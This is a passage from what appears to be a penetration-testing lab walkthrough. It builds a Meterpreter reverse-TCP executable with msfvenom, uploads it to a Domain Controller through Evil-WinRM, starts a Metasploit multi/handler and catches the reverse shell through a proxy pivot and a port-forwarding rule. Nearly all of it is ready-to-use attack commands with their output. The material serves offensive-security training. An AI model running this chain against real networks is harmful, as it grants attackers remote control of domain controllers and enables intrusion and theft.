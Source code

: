 Next, create an executable payload that we'll upload to the Domain Controller host.

```shell-session
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.8.120 -f exe -o dc_shell.exe LPORT=1234

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: dc_shell.exe
```

Upload the payload to the DC.

```powershell
*Evil-WinRM* PS C:\> upload "/home/tester/dc_shell.exe" 

Info: Uploading /home/tester/dc_shell.exe to C:\\dc_shell.exe
                                                          
Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
```

Background the Meterpreter session

```shell-session
(Meterpreter 1)(/root) > bg
[*] Backgrounding session 1...
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) >>
```

Start another multi/handler in the same msfconsole session to catch the shell from the DC.

```shell-session
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> set lport 8443
lport => 8443
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> exploit
```

Execute the payload on the DC and, if all goes to plan, we'll catch it in our handler.

```shell-session
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\dc_shell.exe
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.8.3:5985-<><>-OK
```

Checking on our handler and we see the incoming connection. It appears to come from 0.0.0.0 because our port forwarding rule set earlier has specified that all traffic destined for our host on port 1234 should be directed to (our listener) on port 8443.
